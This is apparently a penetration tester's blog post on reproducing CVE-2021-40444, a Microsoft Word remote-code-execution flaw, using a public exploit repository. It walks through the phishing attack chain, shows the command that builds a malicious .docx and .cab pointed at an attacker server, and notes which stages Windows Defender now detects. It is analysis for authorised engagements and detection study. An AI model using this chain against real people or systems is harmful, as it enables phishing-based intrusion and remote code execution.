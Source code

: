 ```yaml
---
layout: post
title:  "CVE 2021 40444"
date:   2021-09-26
categories: progress work
---
```

Finally was able to squeeze out some time to look at CVE 2021 40444 and as expected, the exploit no longer works on a fully updated Windows machine as it has already been heavily signatured.

> * https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444

It was worth taking a look as a document based attack could be really useful in an engagement, granting us initial foothold through email phishing attack. 

Let's take a look at how this is being detected now.

A repository available on github by lockedbyte basically has all the juice that we need to reproduce the exploit. Basically it has a 'template' .cab file, a 'template' .docx file, and the core .html exploit. The tools on the repository allow you to specify ur own payload (it patches the .cab file with your payload) and the .docx generated will be auto populated with your server endpoint as well. Pretty neat.

> * https://github.com/lockedbyte/CVE-2021-40444

How the flow works is basically:

1. generate the exploit files with the .py script by specifying a .dll payload and your server endpoint
2. it patches .cab file with your .dll payload, populates a .cab, .docx and a .html for the full exploit chain
3. get your victim to open .docx and enable content
4. external references inserted in the xml of the .docx fetches the .html file and executes it
5. .html file fetches the .cab file and executes it
6. RCE as defined in your .dll payload (.cab)

```
root@workstation-1906:/tmp/CVE-2021-40444# python3 exploit.py generate test/calc.dll http://172.16.191.3/
[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]
[*] Option is generate a malicious payload...

[ == Options == ]
      [ DLL Payload: test/calc.dll
      [ HTML Exploit URL: http://172.16.191.3/

[*] Writing HTML Server URL...
[*] Generating malicious docx file...
  adding: [Content_Types].xml (deflated 75%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 61%)
  adding: docProps/ (stored 0%)
  adding: docProps/app.xml (deflated 48%)
  adding: docProps/core.xml (deflated 50%)
  adding: word/ (stored 0%)
  adding: word/webSettings.xml (deflated 57%)
  adding: word/fontTable.xml (deflated 74%)
  adding: word/settings.xml (deflated 63%)
  adding: word/document.xml (deflated 85%)
  adding: word/theme/ (stored 0%)
  adding: word/theme/theme1.xml (deflated 79%)
  adding: word/styles.xml (deflated 89%)
  adding: word/_rels/ (stored 0%)
  adding: word/_rels/document.xml.rels (deflated 75%)
[*] Generating malicious CAB file...
[*] Updating information on HTML exploit...
[+] Malicious Word Document payload generated at: out/document.docx
[+] Malicious CAB file generated at: srv/word.cab
[i] You can execute now the server and then send document.docx to target
root@workstation-1906:/tmp/CVE-2021-40444# 

```

Ohhhh shoot! The very first detection is of course the templated document.docx itself. It is being detected as a Trojan Downloader. Fair enough, since the external references in the xml of the .docx indicate that.

<div style="text-align: center"><img src="/images/cve1.png" height="260" width="680"/></div>

Let's create a whitelist for the file and observe what are the subsequent detections if any, for this exploit.

The next detection can be observed as the following:

<div style="text-align: center"><img src="/images/cve2.png" height="260" width="680"/></div>

As explained in the flow, the next detection point as expected belongs to the .html file being downloaded when the .docx is executed. The cached copy of the .html file created in the users' AppData directory can be seen to trigger Defender.

And finally, we can see that the .cab file was being flagged by Defender as well.

<div style="text-align: center"><img src="/images/cve3.png" height="260" width="680"/></div>

Interestingly enough there are other formats for exploitation. It appears that .cab archive is also not compulsory. Worth looking when time allows!

> * https://dl.packetstormsecurity.net/2109-exploits/MS_Windows_CVE-2021-40444.pdf



